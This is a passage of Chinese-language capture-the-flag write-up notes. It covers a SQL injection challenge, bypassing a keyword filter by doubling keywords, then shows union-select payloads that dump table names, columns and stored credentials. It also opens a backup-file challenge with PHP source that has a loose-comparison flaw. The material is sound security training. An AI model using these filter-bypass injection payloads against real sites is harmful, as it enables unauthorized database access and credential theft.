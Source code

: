 先在password单独测试关键词，例如password输入from，回显Input your username and password，说明被吞==》输入ffromrom，回显NO,Wrong username password！！！，成功绕过 ==》**<span style="background:#FF9999;">先测试关键词+绕过方法再注入，不然不知道是哪个词出现了问题</span>**

或者知道几列后，在某个位置用''直接回显，看他是不是自己，印证猜想：replace关键词为空

```
1'uunionnion sselectelect 1,'information',3--+
```

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/img/image-20220220235721090.png" alt="image-20220220235721090" style="zoom:67%;" />

5. 爆表名：'b4bsql,geekuser'

   ```
   1'uunionnion sselectelect 1,2,group_concat(table_name) ffromrom infoorrmation_schema.tables wwherehere table_schema=database()--+
   ```

6. 爆列名：'id,username,password'

   ```
   1'uunionnion sselectelect 1,2,group_concat(column_name) ffromrom infoorrmation_schema.columns wwherehere table_name='b4bsql'--+   //注意❗要加引号
   ```

7. 爆具体数据

   ```
   1'uunionnion sselectelect 1,2,group_concat(concat_ws('--',id,username,passwoorrd)) ffromrom b4bsql--+
   ```

   '1--cl4y--i_want_to_play_2077,2--sql--sql_injection_is_so_fun,3--porn--do_you_know_pornhub,4--git--github_is_different_from_pornhub,5--Stop--you_found_flag_so_stop,6--badguy--i_told_you_to_stop,7--hacker--hack_by_cl4y,8--flag--flag{4a2ddb62-9290-4b79-bce5-c2222e134275}'

得到flag



## [ACTF2020 新生赛]BackupFile(简单)

#### 考点：备份文件、弱类型比较：数字相等

御剑扫到index.php.bak，得到源码

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/img/image-20220221234847834.png" alt="image-20220221234847834" style="zoom: 67%;" />

```php
<?php
include_once "flag.php";
if(isset($_GET['key'])) {
    $key = $_GET['key'];
    if(!is_numeric($key)) {  //key得是数字
        exit("Just num!");
    }
    $key = intval($key);
    $str = "123ffwsfwefwf24r2f32ir23jrw923rskfjwtsw54w3";
    if($key == $str) {   //弱类型比较
        echo $flag;
    }
}
else {
    echo "Try to find out source file!";
}
```
